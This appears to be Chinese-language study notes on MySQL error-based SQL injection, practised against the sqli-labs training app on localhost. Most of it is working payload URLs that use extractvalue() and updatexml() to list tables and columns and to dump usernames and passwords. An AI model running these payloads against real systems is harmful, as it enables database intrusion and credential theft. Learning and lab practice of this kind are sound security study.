 ### 报错注入

**报错注入是一种****利用网站的报错信息来获取数据库信息**的注入方式。

**该方法的原理是在错误信息中执行SQL语句，利用数据库的某些机制制造错误条件，使得查询结果能够出现在错误信息中。**

**在MySQL中，执行一个正常的SQL语句，不会返回查询的内容，但是会打印一条报错语句，告诉你有一个SQL语法错误。利用该特性，构造SQL语句，让其返回数据库的相关信息。**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1,2,databse()--+
```

![1686741574661](image/1.3报错注入/1686741574661.png)

![1686741598115](image/1.3报错注入/1686741598115.png)

![1686744596624](image/1.3报错注入/1686744596624.png)

![1686744627371](image/1.3报错注入/1686744627371.png)

![1686744640082](image/1.3报错注入/1686744640082.png)


#### **利用extractValue()报错注入**

**使用extractvalue查询xml里面的内容**

```
select extractvalue(doc,'/book/author/surname')from xml;
```

```
select extractvalue(doc,concat(0x7e,(select database())))from xml;
```

![1686741645198](image/1.3报错注入/1686741645198.png)

![1686741655402](image/1.3报错注入/1686741655402.png)

** 0x7e     代表~             也可使用  '~' 代替**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select database()))),3 --+
//查询库名 
```

![1686741758932](image/1.3报错注入/1686741758932.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
//查询该库内所有的表名
```

![1686741750543](image/1.3报错注入/1686741750543.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))),3 --+
```

![1686741729712](image/1.3报错注入/1686741729712.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password) from users),1,30))),3 --+
//报错注入一次只能显示30个字符，所以使用substring函数继续显示。
```

![1686741738602](image/1.3报错注入/1686741738602.png)

#### **updatexml函数**

![1686744438757](image/1.3报错注入/1686744438757.png)

![1686743807264](image/1.3报错注入/1686743807264.png)

![1686744903423](image/1.3报错注入/1686744903423.png)

**database()				数据库库名
group_concat()			把查询到的结果合并到一行显示
concat()					合并字符
优先执行括号()里的命令**

```
http://localhost/sqli_labs/Less-6/?id=1" and 1=updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),3)--+
//查看该库内的表名
```

![1686745406727](image/1.3报错注入/1686745406727.png)

![1686745343388](image/1.3报错注入/1686745343388.png)

```
http://localhost/sqli_labs/Less-6/?id=1" and 1=updatexml(1,concat('~',(select substr(group_concat(username,password),1,28) from users)),3)--+
//查询列内的内容     substr与substring效果一致
```


#### floor报错
